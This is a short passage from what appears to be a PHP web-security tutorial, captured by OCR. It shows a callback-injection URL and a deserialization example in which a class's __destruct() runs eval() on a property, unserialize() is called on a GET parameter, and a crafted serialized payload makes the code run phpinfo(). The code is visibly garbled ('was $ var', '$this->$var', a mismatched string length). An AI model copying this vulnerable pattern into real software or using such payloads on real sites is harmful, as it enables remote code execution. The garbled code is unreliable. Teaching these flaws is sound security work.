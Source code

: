 

Attack payload


```

http://www.a.com/index.php?callback=phpinfo

```



### Deserialization


If `unserialize()` defines a `__destruct()` or `__wakeup()` function at execution time, it may cause code execution.


```php

<?php

class Example {

was $ var = &quot;&quot;;
  function __destruct() {

    eval($this->$var);

  }

}

unserialize($_GET["saved_code"]);

?>

```



Attack payload


```

http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

```



## PHP Features


### Array

